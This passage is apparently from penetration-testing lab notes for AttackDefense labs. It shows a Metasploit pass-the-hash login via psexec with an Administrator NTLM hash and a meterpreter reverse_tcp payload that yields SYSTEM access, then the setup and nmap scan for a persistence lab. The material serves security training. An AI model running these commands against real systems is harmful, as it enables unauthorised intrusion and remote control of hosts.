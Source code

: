 - **Use PSExec to login with `Administrator` user and its password hashes**

```bash
exit
search psexec
use exploit/windows/smb/psexec
options
set payload windows/x64/meterpreter/reverse_tcp
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
exploit
```

```bash
getuid
	Server username: NT AUTHORITY\SYSTEM

sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows
```

------

## Lab 6 - Persistence

> 🔬 [Maintaining Access: Persistence Service](https://attackdefense.com/challengedetails?cid=2140)
>
> - Target IP: `10.2.20.185`
> - Metasploit **persistence** modules

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.20.185
setg RHOST 10.2.20.185
workspace -a Persistence
db_nmap -sV 10.2.20.185
```

```bash
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc 		 Microsoft Windows RPC
49154/tcp open  msrpc 		 Microsoft Windows RPC
49155/tcp open  msrpc 		 Microsoft Windows RPC
49156/tcp open  msrpc 		 Microsoft Windows RPC
```
